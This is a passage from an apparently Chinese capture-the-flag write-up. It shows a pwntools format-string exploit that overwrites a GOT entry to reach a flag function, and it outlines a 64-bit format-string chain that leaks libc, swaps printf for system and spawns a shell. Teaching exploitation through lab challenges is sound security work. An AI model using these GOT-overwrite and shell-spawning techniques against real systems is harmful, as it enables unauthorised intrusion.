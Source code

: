 ```python
def get_flag():

	flag_addr = elf.sym['get_secret']
	
	payload = p32(elf.got['exit']) + '%' + str((flag_addr&0xffff)-4) + 'c%35$hn'
#	payload = fmtstr_payload( 35, {printf_got:flag_addr} )
	send_message(payload)
	io.recv()
	
if __name__ == '__main__':

	#loop_it()
	get_flag()
	io.interactive()
```

<br>

### Super-Secure-Secrets(points: 140)

64位格式化字符串的题目，第一次做64位的，给坑了很久。。

简单分析一下程序，`set_message`用来存payload

![](http://wx3.sinaimg.cn/mw690/0060lm7Tly1fu84kl3dppj30h40bxdh0.jpg)

`get_message`中有fsb，可以用它来达到任意地址读和任意地址写，并且由于程序只能执行一次get_message操作，我们可以通过将`memset`的got表的真实地址覆盖成`_start`的地址达到循环的目的。

![](http://wx3.sinaimg.cn/mw690/0060lm7Tly1fu84l4py20j30w10l977v.jpg)

当我们能够无限次利用fsb的时候，常规操作一通上基本就稳了。

> 常规操作：
>
> 1. 泄露两个函数的真实地址从而确定libc版本
> 2. 通过libc得到system函数的真实地址
> 3. 将printf的真实地址覆盖为system的真实地址
> 4. 传""/bin/sh\0"从而getshell

**一些64位程序的坑**：

- 这里由于程序是64位，传参顺序为rdi, rsi, rdx, rcx, r8, r9，接下来才是栈，所以在计算偏移时应在栈的基础上加6。
- 由于64位程序的地址的高字节都是`\x00`，如果放在payload前面会把后面的截断，所以传地址时应放在payload的最后面。

**一个关于优先级的坑(之前给坑过，写着这题又忘了...)**

```
>>> a = 0x1234
>>> ((a>>8)&0xff)-4 // 预期结果
14
>>> (a>>8)&(0xff-4) // 非预期结果
18
>>> (a>>8)&0xff-4 // 非预期结果
18
```
